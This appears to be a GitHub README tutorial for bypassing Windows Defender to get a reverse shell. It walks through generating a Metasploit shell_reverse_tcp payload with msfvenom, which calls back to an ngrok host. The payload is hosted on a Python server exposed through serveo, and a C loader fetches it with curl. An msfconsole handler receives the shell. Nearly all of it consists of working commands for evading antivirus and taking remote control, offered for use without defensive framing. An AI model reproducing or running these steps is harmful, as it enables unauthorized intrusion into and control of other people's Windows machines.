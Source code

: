 # Bypass-Windows-Defender
Bypass Windows Defender with a staged C code &amp; metasploit framework

#### developed by L0PA

 ### Bypass Step's:
   - Create a TCP Tunnel: Set up a TCP tunnel using Ngrok to expose the port for the payload.
   - Generate Payload: Use msfvenom to create the payload in .bin format.
   - Start Python Server: Launch a Python HTTP server in the same directory where the payload is located.
   - Expose Server Online: Use Serveo to make the server accessible online.
   - Set up Listener: Use msfconsole to listen on the specified TCP port.
   - Develop C Code: Write the C code to fetch and execute the payload.
   - Compile and Run: Compile the C code and execute.
##

### Tutorial

- Create the tcp tunnel on the port 4444
  ```
  sudo ngrok tcp 4444
  ```
- Copy the IP and the PORT of the server 
  ```
   - IP: 4.tcp.eu.ngrok.io
   - PORT: 15819
  ```

<p align="center">
    <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/ngrok-tcp.jpg">
   </p>

- Create the .bin payload using msfvenom 
  ```
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=4.tcp.eu.ngrok.io LPORT=15819 -f raw -o payload.bin
  ```

- Launch a Python HTTP server in the same directory where the payload is located 
  ```
    python -m http.server 8090
  ```

- Create the serveo key and expose python server using a serveo tunnel
  ```
   ssh-keygen -t rsa -b 4096 -f ~/.ssh/serveo_key
   ssh -i ~/.ssh/serveo_key -R yourServer:80:localhost:8090 serveo.net
  ```

- Create the main.c file and modify the "command" variable with your server
```
   char *command = "curl https://yourServer.serveo.net/payload.bin";
```

<p align="start">
   <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/command_variable.png">
</p>

##

- Setting up msfconsole
```
   msfconsole
```
```
   use exploit multi/handler
   ```
```
   set payload windows/x64/shell_reverse_tcp
```
```
   set LHOST <LOCAL IP>
   ```
```
   set LPORT 4444
```
```
   exploit
```
```

